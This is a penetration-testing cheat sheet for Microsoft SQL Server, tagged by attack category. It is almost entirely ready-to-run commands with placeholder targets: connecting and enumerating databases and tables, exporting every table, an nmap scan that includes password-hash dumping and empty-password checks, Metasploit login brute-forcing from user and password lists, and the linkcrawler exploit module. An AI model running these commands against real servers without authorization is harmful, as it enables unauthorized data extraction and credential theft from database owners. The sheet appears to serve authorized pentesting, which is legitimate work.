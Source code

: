# msssql

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/ldap  #port/1433 

## mssql - connect
#cat/ATTACK/CONNECT 
```
sqlcmd -S <ip> -U <user> -P <password>
```

## mssql - enumerate databases
#cat/RECON
```
sqlcmd -S <ip> -U <user> -P <password> -Q "SELECT name FROM sys.databases ORDER BY name;"
```

## mssql - enumerate tables in a database
#cat/RECON
```
sqlcmd -S <ip> -U <user> -P <password> -d "<db>" -Q "SET NOCOUNT ON; SELECT TABLE_SCHEMA + '.' + TABLE_NAME AS TableName FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE' ORDER BY TABLE_SCHEMA, TABLE_NAME;"
```

## mssql - export a table to file
#cat/ATTACK/EXPLOIT
```
mssql-export-table <ip> <user> <password> <db> <table>
```

## mssql - export all tables to file
#cat/ATTACK/EXPLOIT
```
mssql-export-all-tables <ip> <user> <password> <db>
```


## mssql - enum
#cat/RECON
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <ip>
```

## mssql - enum sql login
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use admin/mssql/mssql_enum_sql_logins; set RHOSTS <ip>; set USER_FILE <user_file>; set PASS_FILE <pass_file>; run"
```

## mssql - enum configuration setting (xp-cmdshell)
#cat/RECON 
```
msfconsole -x "use auxiliary/admin/mssql/mssql_enum; set RHOST <ip>; set password <password>; run"
```

## mssql link crawler
#cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/windows/mssql/mssql_linkcrawler"
```
